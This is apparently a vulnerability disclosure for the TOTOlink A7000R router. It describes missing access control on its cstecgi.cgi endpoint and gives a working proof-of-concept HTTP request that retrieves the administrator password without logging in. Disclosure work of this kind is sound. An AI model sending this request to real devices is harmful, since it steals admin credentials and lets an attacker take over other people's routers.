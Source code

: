 # TOTOlink A7000R Sensitive information disclosure and privilege escalation caused by incorrect access control

## Overview

- Manufacturer's website information：http://totolink.net/
- Firmware download address ： https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html

## 1. Affected version

![image-20230217154612423](./image-20230217154612423.png)

## 2.Vulnerability details

1.The program does not have access control on/cgi bin/cstegi.cgi, so that anyone can access it. Send an administrator password request to it.

![image-20230217163633957](./image-20230217163633957.png)

## 3.Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V7.4cu.2313_B20191024
2. Use the following POCs for the attack

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 37
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl":"setting/getPasswordCfg"}
```

The reproduction results are as follows:

![image-20230217163621364](./image-20230217163633957.png)



